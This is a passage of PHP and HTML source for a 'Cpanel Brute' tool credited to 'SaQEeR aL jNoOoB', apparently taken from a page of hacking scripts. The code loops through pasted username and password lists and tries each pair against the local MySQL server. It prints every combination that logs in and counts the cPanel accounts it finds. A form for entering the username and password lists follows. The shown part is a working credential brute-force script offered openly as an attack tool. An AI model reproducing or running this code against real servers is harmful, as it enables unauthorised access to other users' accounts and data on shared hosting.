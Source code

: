     {
        if($user !== '')
        {
        $user=trim($user);
         for($i=0;$i&lt;=$id2;$i++)
         {
            $pass = trim($a2[$i]);
            if(@mysql_connect('localhost',$user,$pass))
            {
                echo "SaQEeR~ username is ===&gt; (&lt;b&gt;&lt;font color=green&gt;$user&lt;/font&gt;&lt;/b&gt;) Password is ===&gt; (&lt;b&gt;&lt;font color=green&gt;$pass&lt;/font&gt;&lt;/b&gt;)&lt;br /&gt;";
                $ok++;
            }
         }
        }
    }
    echo "&lt;hr&gt;&lt;b&gt;You Found &lt;font color=green&gt;$ok&lt;/font&gt; Cpanel By SaQEeR aL jNoOoB Script Name&lt;/b&gt;";
    echo "&lt;center&gt;&lt;b&gt;&lt;a href=".$_SERVER['PHP_SELF']."&gt;BACK&lt;/a&gt;";
    exit;
}
}
?&gt;




&lt;/head&gt;




&lt;form method="POST" target="_blank"&gt;
	&lt;strong&gt;
&lt;input name="page" type="hidden" value="find"&gt;        				
    &lt;/strong&gt;
    &lt;table width="748" border="0" cellpadding="3" cellspacing="1" align="center"&gt;
    &lt;tr&gt;
        &lt;td valign="top" bgcolor="#151515" height="67"&gt;&lt;center&gt;&lt;strong&gt;&lt;img src="http://im26.gulfup.com/2012-05-07/1336413453971.png" /&gt;&lt;br&gt;
		&lt;/strong&gt;
		&lt;a href="mailto:h1h@hotmail.be" class="style2"&gt;&lt;strong&gt;Cpanel Brute By SaQEeR aL jNoOoB&lt;/strong&gt;&lt;/a&gt;&lt;/center&gt;&lt;/td&gt;
    &lt;/tr&gt;
    &lt;tr&gt;
    &lt;td&gt;
    &lt;table width="109%" border="0" cellpadding="3" cellspacing="1" align="center"&gt;
    &lt;td valign="top" bgcolor="#151515" class="style2" style="width: 19%" height="310"&gt;
	&lt;strong&gt;&lt;font size="4"&gt;User :&lt;/font&gt;&lt;/strong&gt;&lt;/td&gt;
    &lt;td valign="top" bgcolor="#151515" colspan="5" height="310"&gt;&lt;strong&gt;&lt;textarea cols="40" rows="10" name="usernames"&gt;&lt;/textarea&gt;&lt;/strong&gt;&lt;/td&gt;
    &lt;/tr&gt;
    &lt;tr&gt;
    &lt;td valign="top" bgcolor="#151515" class="style2" style="width: 19%" height="263"&gt;
	&lt;strong&gt;&lt;font size="4"&gt;Pass :&lt;/font&gt;&lt;/strong&gt;&lt;/td&gt;
    &lt;td valign="top" bgcolor="#151515" colspan="5" height="263"&gt;&lt;strong&gt;&lt;textarea cols="40" rows="10" name="passwords"&gt;&lt;/textarea&gt;&lt;/strong&gt;&lt;/td&gt;
    &lt;/tr&gt;
    &lt;tr&gt;
    &lt;td valign="top" bgcolor="#151515" class="style2" style="width: 19%" height="28"&gt;
	&lt;strong&gt;&lt;font size="4"&gt;Type :&lt;/font&gt;&lt;/strong&gt;&lt;/td&gt;
    &lt;td valign="top" bgcolor="#151515" colspan="5" height="28"&gt;
    &lt;span class="style2"&gt;&lt;strong&gt;&lt;font size="4"&gt;Simple :&lt;/font&gt; &lt;/strong&gt; &lt;/span&gt;
	&lt;strong&gt;
	&lt;input type="radio" name="type" value="simple" checked="checked" class="style3"&gt;&lt;/strong&gt;

 [1]: http://hackingscripts.com/wp/wp-content/uploads/2014/02/Saqueer-shell.png